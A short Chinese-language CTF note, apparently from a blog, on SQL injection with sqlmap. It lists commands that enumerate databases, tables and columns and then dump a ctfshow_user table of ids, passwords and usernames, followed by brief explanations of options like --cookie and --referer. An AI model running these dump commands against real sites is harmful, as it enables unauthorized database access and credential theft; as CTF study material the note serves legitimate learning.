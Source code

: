 ```yaml
---
title: SQL注入
date: 2024-9-20 15:35:50
tags: CTF
categories: CTF-Web
---
```


# 1.SQLmap 工具的使用

## 1.基本使用：

查数据库

```
python sqlmap.py -u <url>  -dbs
```

查表名：

```
python sqlmap.py -u <url>  -D ctfshow_web -tables
```

查列名：

```
python sqlmap.py -u <url> -D ctfshow_web -T ctfshow_user -columns
```

查flag：

```
python sqlmap.py -u <url> --referer="ctf.show" -D ctfshow_web -T ctfshow_user -C "id,pass,username" -dump
```

### 参数说明：

#### `--method`指定方法

使用`put`方法时，需要加上头部`--headers="Content-Type:text/plain"`

#### `--referer` 指定

指定来源

#### `--cookie`指定

指定cookie,抓包获得

#### `--data`指定提交的数据

#### `--batch`
